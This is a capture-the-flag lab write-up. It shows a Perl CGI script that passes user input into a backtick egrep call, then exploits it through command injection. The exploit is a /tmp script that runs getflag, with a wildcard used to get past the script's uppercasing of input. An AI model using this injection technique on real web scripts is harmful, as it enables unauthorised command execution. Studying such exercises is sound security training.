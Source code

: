 ## STEPS

### 1. Initial Investigation:
In the home directory, a Perl script named level12.pl is found. This script serves as a CGI script and listens on port 4646. It takes two parameters x and y and performs some operations on them.

```
#!/usr/bin/env perl
# localhost:4646

use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
	$nn = $*[1];
	$xx = $*[0];
	$xx =~ tr/a-z/A-Z/;
	$xx =~ s/\s.*//;
	@output = `egrep "^$xx" /tmp/xd 2>&1`;
	foreach $line (@output) {
		($f, $s) = split(/:/, $line);
		if($s =~ $nn) {
			return 1;
		}
	}
	return 0;
}
	
sub n {
	if($_[0] == 1) {
		print("..");
	} else {
		print(".");
	}
}

n(t(param("x"), param("y")));
```

Apparently, the t subroutine reads a file /tmp/xd and searches for lines starting with x and containing y. By carefully crafting x , we can exploit this script to execute arbitrary commands or reveal sensitive information from the system.

### 2.Exploitation :
Since the x value is stored in $xx, converted to uppercase, and any whitespace character followed by zero or more characters is removed, we can create a file in /tmp named **EXPLOIT** with uppercase letters. Then, we can pass the path of this file as the x parameter to execute **getflag** command.and to bypass the restriction of /tmp, i replaced it with *.

```
#!/bin/sh
getflag > /tmp/f
```

```
chmod 777 /tmp/EXPLOIT
```
In a browser : 

![alt text](url.png)

and it worked! 

![alt text](level12.png)
